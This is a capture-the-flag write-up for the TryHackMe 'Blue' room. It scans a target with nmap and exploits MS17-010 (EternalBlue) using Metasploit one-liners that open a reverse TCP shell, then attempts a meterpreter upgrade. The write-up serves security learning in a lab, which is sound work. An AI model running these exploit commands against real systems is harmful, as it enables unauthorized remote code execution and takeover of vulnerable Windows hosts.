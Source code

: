 ```yaml
---
title: 'TryHackMe - Blue'
description: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
author: 'Tim Sonner'
date: '2023-06-29'
published: true
---
```


# THM Eternal Blue  

## Recon  

 ### // Set a terminal environmental variable for target IP address  

    export IP=<target-ip-address> 

 ### // Run nmap vulnerability scan 

    nmap -sV -vv --script=vuln $IP  

 ### // Example  

![](../thm-blue-nmap-command.png)  

 ### // Results  

![](../thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

 ![](../thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is running  

  // Results  

  ![](../thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

     background  

> Ctrl-z does the same thing  

 ![](../thm-blue-background-example.png)

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
     search upgrade shell   

 ![](../thm-blue-search-upgrade-shell-1.png)  

 ### // Select the script for use  

     use shell_to_meterpreter  

> Alternative: "use 4" (4th result in searches)

 ![](../thm-blue-run-upgrade-shell.png)  

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

 ![](../thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  



 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  

 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  







